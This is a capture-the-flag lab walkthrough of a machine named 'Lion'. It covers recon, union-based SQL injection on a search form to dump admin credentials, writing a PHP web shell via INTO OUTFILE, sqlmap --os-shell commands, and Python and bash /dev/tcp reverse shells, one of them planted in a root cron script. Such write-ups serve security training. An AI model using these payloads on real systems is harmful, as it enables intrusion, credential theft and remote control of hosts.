 # Lion
![index image](../images/lion/index.webp)

## Recon
During the recon phase using Nmap and Feroxbuster, we found a few interesting things, such as an endpoint `/admine/includes` that contains some information, but we didn’t find anything suspicious. The Nmap scan didn’t reveal anything unusual either. There is a database and an RPC service open, but nothing significant was discovered.
<br>
![nmap image](../images/lion/nmap.webp)
![feroxbuster image](../images/lion/feroxbuster.webp)

Looking at the `/index.php` directory, we notice a search field that sends a POST request to `search.php` (the parameter used is `searchtitle`, as seen in the form). By attempting an SQL injection query, we can retrieve the first flag.
![search.php image](../images/lion/search.webp)

## Exploitation
This is an SQLi vulnerability. Therefore, we can exploit it either manually or by using SQLMap. Since my focus is on manual exploitation, I will only provide a few steps for using SQLMap. For manual exploitation, we’ll first attempt to determine the number of columns using the following query: `' order by 7 #`

After the `ORDER BY 8`, we get no results, so there are 7 columns. This indicates a union-based SQL injection. To retrieve some information, we will run the following queries:
* Query to retrieve the current database name `' union select 1,database(),3,4,5,6,7 #`. The database name is: news.
* In the following query `' union select 1,table_name,3,4,5,6,7 from information_schema.tables where table_schema = 'news' #`, we can retrieve the tables from the database. The following tables are present: `tbladmin`, `tblcategory`, `tblcomments`, `tblpages`, `tblposts`, `tblsubcategory`. Since we have an `/admin` endpoint, we can check if we can obtain the admin password.
* For get others columns, we have `' union select 1,column_name,3,4,5,6,7 from information_schema.columns where table_name = 'tbladmin' #`. We have the following columns: `AdminUserName` and `AdminPassword`.
* We will retrieve the results from both columns using the follow query `' union select 1,AdminUserName,3,4,5,6,7 from tbladmin; #` and `' union select 1,AdminPassword,3,4,5,6,7 from tbladmin; #`.

We have the following user/password: `admin:$2y$12$hu9MjecXIjTfVg8VW8hTtOb8EWdd3muA773vZa7r5m0QepC9PJ4b`.
I ran it through Hash Identifier, and it’s bcrypt. I tried cracking it with Hashcat, but it didn’t work. So, let's attempt to place a shell in the `includes` directory instead.
`' union select 1,<?php system($_GET['cmd']);?>,3,4,5,6,7 into outfile "/var/www/html/includes/x.php #`
![shell 1 image](../images/lion/shell1.webp)

Alright, we have a PHP shell. However, to save time, I’ll list the SQLMap commands below. Using SQLMap, we can run: `python3 sqlmap.py -u "http://172.16.14.214/search.php" --data "searchtitle=teste"`
![sqlmap 1 image](../images/lion/sqlmap1.webp)

Listing the databases and the current database: `python3 sqlmap.py -u "http://172.16.14.214/search.php" --data "searchtitle=teste" --dbs --hex` and `python3 sqlmap.py -u "http://172.16.14.214/search.php" --data "searchtitle=teste" --current-db --hex`

As we observed manually, the admin password is hashed. Therefore, to upload a shell via SQLMap, we can use the following parameter: `--os-shell`. This option allows SQLMap to attempt to spawn an operating system shell on the target system if the SQL injection is successful.

`python3 sqlmap.py -u "http://172.16.14.214/search.php" --data "searchtitle=teste" --os-shell`

Now, we can get shell and reverse shell with python.
<br>
![sqlmap 2 image](../images/lion/shell2.webp)
![sqlmap 3 image](../images/lion/shell3.webp)
![sqlmap 4 image](../images/lion/shell4.webp)
```bash
export RHOST="IP";export RPORT=PORTA;python -c 'import sys,socket,os,pty;s=socket.socket();s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("sh")'
```

## Post Exploitation
I ran `linpeas` to find potential vectors for privilege escalation. We found a `.sh` file (with misconfigured permissions) that is set to run as root in a cron job. This seems to be the likely path, but let’s examine the rest of the system to be sure.
![pos 1 image](../images/lion/pos1.webp)
<br>
![pos 2 image](../images/lion/pos2.webp)
![pos 3 image](../images/lion/pos3.webp)

There appears to be a logrotate version 3.8.6, which may be vulnerable. If our attempt with the cron job doesn’t work, we can try exploiting the logrotate vulnerability as an alternative.
<br>
![pos 4 image](../images/lion/pos4.webp)

Going back to the cron job, since we have write permissions on the file, we can modify it and apply the payload. After making the changes, we just need to wait for the cron job to execute and gain privilege escalation.
<br>
```/bin/bash -c 'sh -i >& /dev/tcp/ip/porta 0>&1'```
![pos 5 image](../images/lion/pos5.webp)
![pos 6 image](../images/lion/pos6.webp)